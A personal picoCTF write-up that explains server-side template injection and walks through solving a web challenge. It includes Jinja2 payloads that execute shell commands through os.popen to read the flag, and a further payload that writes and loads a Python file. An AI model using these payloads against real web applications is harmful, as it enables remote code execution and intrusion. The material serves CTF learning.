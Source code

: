 
this is an easy picoctf web challenge

basic explanation of SSTI:
what is a template?
https://en.wikipedia.org/wiki/Template_processor
lets you dynnamically generate html pages based on templates

lets you have dynamic content in a webpage with specific templating syntax

Server-side template injection vulnerabilities arise when user input is concatenated into templates rather than being passed in as data.


something like this would not be vulnerable to it (twig template)
`$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );`
because the first name isn't passed into the template

if they directly put user input into the template before it renders, that might create vulns 
ex vuln code:
`$output = $twig->render("Dear " . $_GET['name'])`

for a more detailed explanation please look through [[my notes on SSTI's]]

How to solve it:


First I fuzzed the announce text input by inputting ```${{<%[%'"}}%\``` (these are normally used by templating engines) and seeing if that broke the page, it did so I concluded that there was a templating engine and it was evaluating all the things I input


then I followed the following flow chart


![[Pasted image 20251010003925.png]]
(the green arrow should be followed if the expression is sucessfuly evaluated and red if not)

to arrive at it being either jinja2 or twig

I tried running `{{ config.__class__ }}` (jinja2 syntax) and   `{{ constant('PHP_VERSION') }}` (twig syntax), the twig syntax broke the site while the jinja2 syntax worked so I concluded that it was using jinja2

I looked up jinja2 payloads to find ``self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()``
which worked (insert image)

I modified the command it would run on the system to `ls` (``self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()``)

and then `cat flag
(`self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()`)


which got me the flag


http://localhost:5000/?exploit={%set%20a,b,c,d,e,f,g,h,i%20=%20request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337


{%set%20a,b,c,d,e,f,g,h,i%20=%20request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337
